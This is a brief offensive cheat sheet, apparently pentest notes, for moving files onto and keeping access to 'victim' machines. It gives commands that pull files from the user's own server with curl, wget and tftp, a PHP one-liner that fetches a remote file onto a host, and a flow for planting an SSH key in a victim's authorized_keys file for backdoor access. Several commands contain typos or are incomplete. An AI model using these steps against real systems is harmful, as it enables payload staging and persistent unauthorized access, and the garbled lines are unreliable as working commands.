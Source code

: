 #### Python simple HTTPServer
***python -m SimpleHTTPServer [port]

##### curl
curl -O http://[my_server_ip:port]/fileName

##### wget
wget http://[my_server_ip:port]/fileName

##### tftp
tftp [my_server_ip]
tftp > get myFile
OR
tftp [my_server_ip] <<< "get file"

##### php
echo "<?php file_put_contents('nameOfFile', fopen('http://[my_server_ip:port/fileName', 'r')); ?>" file_one_server.php

#### SSH-SCP
***ssh key generation flow***
- ssh-keygen -t rsa -C "your@email.com"
- add *.pub public key to auhorized_keys on victim server
- echo "ssh-rsa ASD3NbN[..]vlldor..." > authorized_keys
- log in ssh -i private_key [name]@[victim_machine_ip] -p [port]

#### SCP
***copy file***
scp /your/file/path.ext [name]@[victim_server_ip]:/your/file/destination/path.ext
***copy dir***
scrp -r /your/dir/path [name]@[victim_server_ip]:/your/dir/destination/path

#### Netcat
# TODO
